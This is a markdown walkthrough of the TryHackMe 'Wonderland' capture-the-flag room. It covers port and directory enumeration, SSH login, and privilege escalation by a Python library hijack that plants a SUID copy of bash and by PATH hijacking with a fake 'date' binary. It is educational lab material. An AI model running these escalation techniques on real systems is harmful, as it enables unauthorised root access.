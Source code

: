 
# 🧩 TryHackMe: Wonderland Walkthrough

Inspired by: [CodeQuoi Wonderland Walkthrough](https://www.codequoi.com/en/ctf-walkthrough-wonderland-tryhackme/)

---

## 🚀 Getting Started

1. **Access the Challenge**:
   - [TryHackMe Wonderland Room](https://tryhackme.com/room/wonderland)

2. **Connect to TryHackMe VPN**:
   ```bash
   sudo openvpn /path/to/your/vpn-config.ovpn
   ```

3. **Ping Target**:
   ```bash
   ping <target-ip>
   ```

---

## 🔍 Enumeration

### 1. Nmap Scan
```bash
nmap -sV -sC -Pn <target-ip>
```

### 2. Web Enumeration
- Visit `http://<target-ip>`
- Use Gobuster:
```bash
gobuster dir -u http://<target-ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```
- Follow `/r/a/b/b/i/t` path and view source for credentials.

---

## 🔐 SSH Access

Login using found credentials:
```bash
ssh [email protected]<target-ip>
```

---

## 🧑‍💻 Privilege Escalation: Alice → Rabbit

### 1. Sudo Permissions
```bash
sudo -l
```

### 2. Python Library Hijack
Create a fake `random.py`:
```python
import os
os.system('cp /bin/bash /tmp/bash')
os.system('chmod +s /tmp/bash')
```

Execute script:
```bash
sudo -u rabbit python3 /home/alice/walrus_and_the_carpenter.py
/tmp/bash -p
```

---

## 🎩 Privilege Escalation: Rabbit → Hatter

### 1. Inspect teaParty Binary
```bash
ls -l /home/rabbit/teaParty
```

### 2. PATH Exploit
If binary runs commands like `date`, create a fake `date` in PATH:
```bash
echo "/bin/bash" > date
chmod +x date
export PATH=.:$PATH
./teaParty
```

---

## 👑 Root Access

Check for readable `root.txt` or SUID root binaries:
```bash
find / -perm -u=s -type f 2>/dev/null
```

---

## 🏁 Flags

- **User Flag**: typically in `/home/<user>/user.txt`
- **Root Flag**: typically in `/root/root.txt`

---

## ✅ Completion

Make sure to submit both flags in TryHackMe to complete the room!
